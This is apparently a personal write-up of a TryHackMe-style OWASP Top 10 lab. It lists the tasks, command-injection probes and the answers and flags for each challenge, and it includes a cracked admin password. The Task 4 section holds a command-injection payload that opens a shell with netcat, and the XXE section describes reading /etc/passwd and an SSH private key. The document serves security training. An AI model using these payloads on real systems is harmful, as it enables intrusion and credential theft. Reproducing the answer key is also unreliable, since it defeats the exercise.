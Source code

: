 # OWASP Top 10

## [Task 1] Introduction

## [Task 2] Accessing machines

## [Task 3] [Severity 1] Injection

## [Task 4] [Severity 1] OS Command Injection
- `whoami`
- `;nc -e /bin/bash`

## [Task 5] [Severity 1] Command Injection Practical
Commands to try
Linux
- `whoami`
- `id`

- `ifconfig/ip addr`
- `uname -a`
- `ps -ef`

Windows
- `whoami`
- `ver`
- `ipconfig`
- `tasklist`
- `netstat -an`

1. What strange text file is in the website root directory?
  - drpepper.txt
2. How many non-root/non-service/non-daemon users are there?
  - 0
3. What user is this app running as?
  - www-data
4. What is the user's shell set as?
  - /usr/sbin/nologin
5. What version of Ubuntu is running?
  - 18.04.4
6. Print out the MOTD. What favorite beverage is shown?
  - dr pepper

## [Task 6] [Severity 2] Broken Authentication

## [Task 7] [Severity 2] Broken Authentication Practical
1. What is the flag that you found in darren's account?
  - fe86079416a21a3c99937fea8874b667
2. Now try to do the same trick and see if you can login as arthur.
3. What is the flag that you found in arthur's account?
  - d9ac0f7db4fda460ac3edeb75d75e16e

## [Task 8] [Severity 3] Sensitive Data Exposure (Introduction)

## [Task 9] [Severity 3] Sensitive Data Exposure (Supporting Material 1)

## [Task 10] [Severity 3] Sensitive Data Exposure (Supporting Material 2)

## [Task 11] [Severity 3] Sensitive Data Exposure (Challenge)
1. Have a look around the web app. The developer has left themselves a note
   indicating that there is sensitive data in a specific directory. What is the
   name of the mentioned directory?
  - /assets
2. Navigate to the directory you found in question one. What file stands out as
   being likely to contain sensitive data?
  - webapp.db
3. Use the supporting material to access the sensitive data. What is the
   password hash of the admin user?
  - 6eea9b7ef19179a06954edd0f6c05ceb
4. Crack the hash. What is the admin's plaintext password?
  - qwertyuiop
5. Login as the admin. What is the flag?
  - THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## [Task 12] [Severity 4] XML Exernal Entity

## [Task 13] [Severity 4] XML External Entity - eXtensible Markup Language
1. Full form of XML
  - xtensible Markup Language
2. Is it compulsory to have XML prolog in XML documents?
  - no
3. Can we validate XML documents against a schema?
  - yes
4. How can we specify XML version and encoding in XML documents?
  - XML prolog

## [Task 14] [Severity 4] XML External Entity - DTD
1. How do you define a new ELEMENT?
  - !ELEMENT
2. How do you define a ROOT element?
  - !DOCTYPE
3. How do you define a new ENTITY?
  - !ENTITY

## [Task 15] [Severity 4] XML External Entity - XXE Payload

## [Task 16] [Severity 4] XML External Entity - Exploiting
1. Try to display your own name using any payload.
2. See if you can read the /etc/passwd.
3. What is the name of the user in /etc/passwd?
  - falcon
4. Where is falcon's SSH key located?
  - /home/falcon/.ssh/id_rsa
5. What are the first 18 characters for falcon's private key?
  - MIIEogIBAAKCAQEA7b

## [Task 17] [Severity 5] Broken Access Control
- [reference to scenarios](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)

## [Task 18] [Severity 5] Broken Access Control (IDOR Challenge)
1. Read and understand how IDOR works.
2. Deploy the machine and go to http://machine-ip - Login with the username being _noot_ and the password _test1234_.
3. Look at other user's notes. What is the flag?
- flag{fivefourthree}

## [Task 19] [Severity 6] Security Misconfiguration
- [OWASP top 10 entry for Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)

1. Deploy the VM
2. Hack into the webapp, and find the flag!
    - thm{4b9513968fd564a87b28aa1f9d672e17} 
